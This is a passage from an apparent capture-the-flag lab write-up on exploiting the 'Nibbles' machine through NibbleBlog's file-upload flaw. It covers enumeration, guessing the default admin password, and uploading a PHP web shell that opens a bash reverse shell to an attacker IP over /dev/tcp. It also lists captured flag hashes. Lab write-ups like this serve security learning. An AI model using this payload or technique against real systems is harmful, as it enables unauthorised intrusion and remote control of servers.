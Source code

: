 6. From this shell, I was able to obtain the contents of root.txt and user.txt
   ![image-20201023102114517](.Report.assets/image-20201023102114517.png)
   user.txt: 2c281f318555dbc1b856957c7147bfc1
   root.txt: cc4f0afe3a1026d402ba10329674a8e2

### 10.10.10.75 - Nibbles

1. Enumeration with nmap revealed a web server on port 80.  Checking out the source code of the main page revealed a hidden directory to a NibbleBlog.

2. I ran a gobuster scan against this directory and found the following pages with information:

   1. http://10.10.10.75/nibbleblog/content/private/users.xml - showed the username of the admin
   2. http://10.10.10.75/nibbleblog/README - Showed the version of nibbleblog was 4.0.3, which is has a vulnerability that allows arbitrary file uploads (CVE 2015-6967).

3. I was unable to bruteforce the password due to a blacklist that triggered every 15 tries.  However, trying a few obvious choices, I was able to get in with admin/nibbles

4. Once I was in the admin console, I used the 'My Image' plugin to upload the following php code:

   ```php
   <?php
   exec("/bin/bash -c 'bash -i > /dev/tcp/10.10.14.29/8000 0>&1'");?>
   ```

5. I started a netcat listener and visited the URL of the uploaded file at http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php to trigger the reverse shell.
   ![image-20201023160514693](.Report.assets/image-20201023160514693.png)
